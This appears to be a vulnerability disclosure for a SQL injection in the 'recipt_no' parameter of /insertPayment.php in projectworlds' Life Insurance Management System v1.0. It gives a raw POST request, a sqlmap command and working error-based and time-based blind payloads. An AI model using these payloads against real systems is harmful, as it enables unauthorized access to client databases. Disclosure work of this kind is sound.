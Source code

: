 #  SQLi vulnerability in Life Insurance Management System v1.0 of file /insertPayment.php with param 'recipt_no'

**vender**:

- projectworlds

**SoftLink**:

- [Life Insurance Management System in PHP | Projectworlds](https://projectworlds.in/life-insurance-management-system-in-php/)

**Vulnerable File**

- /insertPayment.php

**Version**

- V1.0

### POC

```http
POST /insertPayment.php HTTP/1.1
Host: www.lims.top
Origin: http://www.lims.top
Referer: http://www.lims.top/addPayment.php
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=sqvuccn7rsiqr9bhq7p29tfds2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Priority: u=0, i
Content-Length: 64

recipt_no=8&client_id=8&month=8&amount=8&due=8&fine=8&agent_id=8
```



```bash
sqlmap -r request.txt -p recipt_no --batch
```



![image-20250531185730204](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311857296.png)



```
---
Parameter: recipt_no (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: recipt_no=8' AND GTID_SUBSET(CONCAT(0x716b627171,(SELECT (ELT(8489=8489,1))),0x71706b7071),8489) AND 'OAaO'='OAaO&client_id=8&month=8&amount=8&due=8&fine=8&agent_id=8

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: recipt_no=8' AND (SELECT 4473 FROM (SELECT(SLEEP(5)))FoAi) AND 'pqpy'='pqpy&client_id=8&month=8&amount=8&due=8&fine=8&agent_id=8
---
```





